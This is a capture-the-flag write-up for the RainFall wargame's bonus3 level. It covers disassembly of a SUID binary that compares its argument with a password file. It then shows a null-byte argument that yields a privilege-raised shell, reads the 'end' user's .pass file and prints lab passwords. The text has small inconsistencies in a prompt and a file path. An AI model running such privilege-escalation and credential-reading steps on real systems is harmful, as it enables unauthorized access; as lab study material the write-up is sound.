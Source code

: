 Login as `bonus3`.
```shell
┌──$ [~/42/2021/rainfall/bonus3]
└─>  ssh 192.168.0.25 -p 4242 -l bonus3
bonus0@192.168.0.25's password: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
A `SUID` executable is located in the home directory.
```shell
bonus3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
It first open `/home/user/bonus3/bonus3` file in readonly mode
```gdb
   [...]
   0x08048502 <+14>:	mov    edx,0x80486f0 // "r"
   0x08048507 <+19>:	mov    eax,0x80486f2 // "/home/user/end/.pass"
   0x0804850c <+24>:	mov    DWORD PTR [esp+0x4],edx
   0x08048510 <+28>:	mov    DWORD PTR [esp],eax
   0x08048513 <+31>:	call   0x8048410 <fopen@plt>
   [...]
```
Then checks if return `fd` is not equals to 0 and that binary was runned with one argument. Otherwise it return -1.
```gdb
   0x08048533 <+63>:	cmp    DWORD PTR [esp+0x9c],0x0
   [...]
   0x0804853d <+73>:	cmp    DWORD PTR [ebp+0x8],0x2
```
Once, preliminary checks are passed it calls `fread` which reads 66 bytes (length of flag) from the stream pointed to by `fd` storing them at the location pointed by `edx`.
```gdb
   [...]
   0x0804854d <+89>:	lea    eax,[esp+0x18]
   0x08048551 <+93>:	mov    edx,DWORD PTR [esp+0x9c]
   0x08048558 <+100>:	mov    DWORD PTR [esp+0xc],edx
   0x0804855c <+104>:	mov    DWORD PTR [esp+0x8],0x42
   0x08048564 <+112>:	mov    DWORD PTR [esp+0x4],0x1
   0x0804856c <+120>:	mov    DWORD PTR [esp],eax
   0x0804856f <+123>:	call   0x80483d0 <fread@plt>
   [...]
```
Then, `av[1]` is compared to stored bytes on `$esp+0x9c` and if two strings are equals a shell is executed.
```gdb
   [...]
   0x080485c7 <+211>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485ca <+214>:	add    eax,0x4
   0x080485cd <+217>:	mov    eax,DWORD PTR [eax]
   0x080485cf <+219>:	mov    DWORD PTR [esp+0x4],eax
   0x080485d3 <+223>:	lea    eax,[esp+0x18]
   0x080485d7 <+227>:	mov    DWORD PTR [esp],eax
   0x080485da <+230>:	call   0x80483b0 <strcmp@plt>
   [...]
```
The issue commes from comparaison.

```sh
bonus3@RainFall:~$ ./bonus3 "$(echo -en '\x00')"
$ id
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users) groups=2014(end),100(users),2013(bonus3)
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
